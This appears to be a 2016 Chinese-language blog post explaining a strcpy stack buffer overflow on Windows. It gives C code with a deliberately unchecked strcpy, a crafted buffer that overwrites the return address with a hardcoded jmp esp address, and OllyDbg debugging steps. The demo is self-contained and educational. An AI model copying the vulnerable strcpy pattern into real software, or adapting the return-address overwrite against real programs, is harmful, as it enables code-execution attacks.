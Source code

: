 ```yaml
---
layout: post
title:  "简单strcpy缓冲区溢出分析"
date:   2016-05-25 22:14:54
categories: 溢出攻击
author: icewar
tags:	溢出攻击 
---
```



* content
{:toc}

由于strcpy对拷贝没有做长度检查导致拷贝的数据大于目的数据规定的长度，因此导致了超过规定长度的数据会覆盖栈的数据，黑客通过精心构造后的数据可精确覆盖EIP达到控制程序流程走向.

**溢出3要素**

* 存在缓冲区溢出漏洞，如strcpy等
* 获取到通用的jmp esp地址
* 正确的shellcode



 
 ***
  
  

示例代码部分


```c++

	#include <stdio.h>
	#include <string.h>
	#include <windows.h>
	void overflow(char* buf)
	{
		char des[5]="";
		MessageBox(NULL,NULL,NULL,NULL);//方便使用OD调试增加的定位特征码
		strcpy(des,buf);
		_asm{
			mov eax,0x00037146;
		}
		return;
	}
	void main(int argc,char *argv[])
	{
		char longbuf[]={0x61,0x61,0x61,0x61,0x61,0x61,0x61,0x61,0x61,0x61,0x61,0x61,
//以上是填充栈的字符数，des长度为5，从des位置开始填充，填充至ret时在栈的位置根据计算需要
//填充12个字节
0x8d,0xf4,0x31,0x77//以上是填充和跳回esp
			,0xFF,0xE0//jmp eax跳转到 上面asm赋值的地方，也就是调用messagebox的开始，shellcode随便写写啦。
		};
		overflow(longbuf);
	    return;
	}

```

通过OD bp MessageBoxA然后反汇编窗口中跟随跳到overflow函数的strcpy对应的call上(经过计算的长度)，调用完成后可发现栈中原本eip的值被覆盖了，最后跟踪到ret指令上,这时函数的返回地址已被覆盖为系统中的jmp esp，如图，而esp中的值则是我们要执行的shellcode，从而达到控制代码执行的流程。

![思维导图](/images/201605/20160525-1.png)